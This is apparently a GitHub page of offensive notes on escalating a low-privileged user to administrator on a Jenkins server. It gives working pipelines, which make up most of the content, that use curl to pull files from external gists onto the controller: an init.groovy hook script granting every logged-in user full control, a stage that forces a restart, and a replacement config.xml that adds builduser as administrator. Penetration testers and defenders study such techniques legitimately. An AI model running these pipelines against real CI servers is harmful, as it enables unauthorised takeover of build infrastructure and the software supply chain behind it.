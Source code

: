 # Privilege Escalations

- The Marix-based security/ Project-based Matrix Authorization Strategy is used to define authorization and scopes.
- In our privilege escalation techniques we will try to escalate our privileges to an adminstrator.




## Give admin access to all authenticated users by executing a groovy script - Technique 1

- The 1st condition for this attack is that the build has to run on the Built-In node , i.e on the Controller.
- The 2nd condition is Jenkins would need a restart after this attack.
- We need to write a init.groovy script that will give the authenticated users admin access 
- We will write a pipeline script to download that init.grooy script that will be replaced in the JENKINS_HOME location.
- init.groovy script will run after the Jenkins initialization, hence a Jenkins reboot is required.
- We will wait for a restart and our low privileged user will have admin access.

init.groovy
``` Groovy
//code copied from http://tdongsi.github.io/blog/2017/12/30/groovy-hook-script-and-jenkins-configuration-as-code/
import jenkins.model.*
def instance = Jenkins.getInstance()

import hudson.security.*
def realm = new HudsonPrivateSecurityRealm(false)
instance.setSecurityRealm(realm)

def strategy = new hudson.security.FullControlOnceLoggedInAuthorizationStrategy()
strategy.setAllowAnonymousRead(false)
instance.setAuthorizationStrategy(strategy)

instance.save()
```

pipeline
``` Jenkinsfile
pipeline {
    agent any
    stages {
        stage('Copy Groovy Script to JENKINS_HOME') {
            steps {
                sh '''
                    curl -o /var/lib/jenkins/init.groovy https://gist.githubusercontent.com/dibsy/c42f536d12a406cbd3845aea4f6ac746/raw/476980613a3f23af11bc958f8a03fc40689987ff/HOOK.groovy
                  '''
            }
        }         
    }
}
```


## Escalate to adminstrator role through groovy init scripts - Technique 2 ( Restart using Pipeline )

- In the previous example we were dependant on the Jenkins restart by admin. 
- It is possible to initiate Jenkins restart by Jenkins Pipeline and in order to do so we need a script approval from admin.
- The 1st condition for this attack is that the build has to run on the Built-In node , i.e on the Controller.
- The 2nd condition is we need to run this pipeline without sandbox mode ( Uncheck in Project Configuration ```Use Groovy Sandbox``` )
- The 3rd condition is admins need to approve this scripts.

To carry out the attack
- We need to write a init.groovy script that will give the authenticated users admin access 
- We will write a pipeline script to download that init.grooy script that will be replaced in the JENKINS_HOME location.
- init.groovy script will run after the Jenkins initialization, hence a Jenkins reboot is required.
- We will write another stage to Restart the Jenkins and start the job.
- Admin need to approve the scripts.
- We need to rerun the attack after the script approval and we will gain admin access after the restart.

init.groovy
``` Groovy
//code copied from http://tdongsi.github.io/blog/2017/12/30/groovy-hook-script-and-jenkins-configuration-as-code/
import jenkins.model.*
def instance = Jenkins.getInstance()

import hudson.security.*
def realm = new HudsonPrivateSecurityRealm(false)
instance.setSecurityRealm(realm)

def strategy = new hudson.security.FullControlOnceLoggedInAuthorizationStrategy()
strategy.setAllowAnonymousRead(false)
instance.setAuthorizationStrategy(strategy)

instance.save()
```

pipeline
```
pipeline {
    agent any
    
    stages {
        stage('Copy Groovy Script to JENKINS_HOME') {
            steps {
                sh '''
                    curl -o /var/lib/jenkins/init.groovy https://gist.githubusercontent.com/dibsy/c42f536d12a406cbd3845aea4f6ac746/raw/476980613a3f23af11bc958f8a03fc40689987ff/HOOK.groovy
                  '''
            }
        }
        stage('Restart Jenkins') {
            steps {
                script {
                    Jenkins.instance.restart()
                }
            }
        }        
    }
}
```



## Escalate to adminstrator role by modifying the config.xml file

- The 1st condition for this attack is that the build has to run on the Built-In node , i.e on the Controller.
- The 2nd condition is that either we need a restart or a reload of configuration data from disk.
- We will dump the config.xml
- We will modify the config.xml to add builduser as admin ``` <permission>USER:hudson.model.Hudson.Administer:builduser</permission> ```
- Next we will run a pipeline that will download and replace the config.xml with the modified xml
- From the next restart or reloading of config data, our changes will take effect.

```
pipeline{
    agent any
    stages{
        stage("Dump config.xml file"){
            steps{
                sh '''
                    cat /var/lib/jenkins/config.xml
                '''
            }
        }
        stage("Replace the modified config.xml file"){
            steps{
                sh '''
                    curl -o /var/lib/jenkins/config.xml https://gist.githubusercontent.com/dibsy/1548ae721e687cc86b9d4a95cc3bafa5/raw/2a3693b17c638f27f1be56af62d85de0309144cb/configModified.xml
                '''
            }
        }        
    }
}
```
